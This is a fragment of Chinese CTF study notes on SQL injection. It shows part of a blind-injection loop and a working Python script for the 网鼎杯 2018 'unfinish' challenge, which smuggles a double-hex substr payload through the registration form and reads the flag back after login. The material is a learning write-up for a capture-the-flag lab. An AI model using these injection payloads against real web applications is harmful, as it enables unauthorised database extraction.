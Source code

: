 ```python
        if (txt.index("<td>"+exp+"</td>")>txt.index("<td>flag@ctf.show</td>")):  # index返回字符串被找到到最小的索引（最左）
            flag = flag + chr(ord(j)-1)   # 得到的字符为比flag的单个字符的值大1，所以需要-1
            print(flag)
            break
```
### 只能是数字  -- 网鼎杯 2018 unfinish/ctfshow内部赛签到
https://blog.csdn.net/jvkyvly/article/details/118771222

```sql
select hex('ktfa')      #6B746661
select '0'+hex('ktfa')  #6  -- 会产生截断
select   0+hex('ktfa')  #6  -- 会产生截断
select hex(hex('ktfa')) #二次hex转为数字 #3642373436363631

payload = "0'+substr(hex(hex((select/**/*/**/from/**/flag))),({}-1)*10+1,10)+'0".format(i)
```

```python
import requests
import re

url_login = "http://73552acc-0943-4a12-89b1-129bed510b06.challenge.ctf.show:8080/login.php"
url_registry = "http://73552acc-0943-4a12-89b1-129bed510b06.challenge.ctf.show:8080/register.php"

flag = ""

for i in range(1, 100):
    # payload="0'+substr(hex(hex((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()))),({}-1)*10+1,10)+'0".format(i)
    payload = "0'+substr(hex(hex((select/**/*/**/from/**/flag))),({}-1)*10+1,10)+'0".format(i)

    email = "{}@8".format(i)

    data = {
        "e": email,
        "u": payload,
        "p": 1
    }
    data1 = {
        "e": email,
        "p": 1
    }

    requests.post(url_registry, data=data)
    r = requests.post(url_login, data=data1)
    flag += re.findall("Hello (.*),", r.text)[0]
    print(flag)
```
# PHP
regex https://www.php.net/regexp.reference.internal-options
## 环境配置
